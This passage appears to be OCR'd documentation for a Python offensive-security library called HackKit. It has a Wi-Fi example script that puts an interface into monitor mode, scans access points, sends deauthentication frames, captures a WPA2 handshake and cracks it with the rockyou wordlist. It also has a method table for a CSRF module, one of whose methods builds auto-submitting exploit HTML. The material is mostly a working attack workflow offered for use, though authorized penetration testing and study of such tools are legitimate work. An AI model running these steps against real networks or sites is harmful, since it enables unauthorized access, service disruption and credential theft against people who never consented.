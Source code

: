 ##### Example: WIFI Master Example

```python
from HackKit import WIFI

wifi = WIFI(interface="wlan0")
# Detect
ifaces = wifi.detect_interfaces()
print(ifaces)
iface = ifaces[0]
# Enable monitor
wifi.enable_monitor_mode(iface)
# Scan APs
aps = wifi.scan_access_points(timeout=10)
print(aps)
bssid = aps[0]['BSSID']
# Deauth one client
wifi.deauth_attack(bssid=bssid, count=5)
# Capture handshake
wifi.capture_handshake(bssid, output_file="hand.cap", timeout=60)
# Crack handshake
wifi.crack_wpa2("hand.cap","rockyou.txt","cracked.txt")
# Enumerate clients
clients = wifi.enumerate_clients(bssid)
print(clients)
# Packet injection test
print(wifi.packet_injection_test())
```

---

### 5. `CSRF`

**Platforms:** Cross-platform
**Dependencies:** `requests`, `beautifulsoup4`

#### Methods

| Method                                                                         | Signature                                         | Description                                      |
| ------------------------------------------------------------------------------ | ------------------------------------------------- | ------------------------------------------------ |
| `__init__()`                                                                   | `def __init__(self) -> None`                      | Imports and ensures `requests`, `BeautifulSoup`. |
| `automatic_dependency_checking()`                                              | Installs Python packages via pip if missing       |                                                  |
| `detect_csrf_tokens(url: str) -> List[Dict[str,str]]`                          | Extract hidden form inputs matching /csrf         | token/i                                          |
| `test_csrf_get(url: str, token_param: str) -> bool`                            | Return True if GET without valid token is blocked |                                                  |
| `test_csrf_post(url: str, form_data: Dict[str,str], token_param: str) -> bool` | POST analog                                       |                                                  |
| `generate_exploit_html(target_url: str, params: Dict[str,str]) -> str`         | Build auto-submitting HTML form                   |                                                  |
| `suggest_protection() -> str`                                                  | Returns best-practices string                     |                                                  |
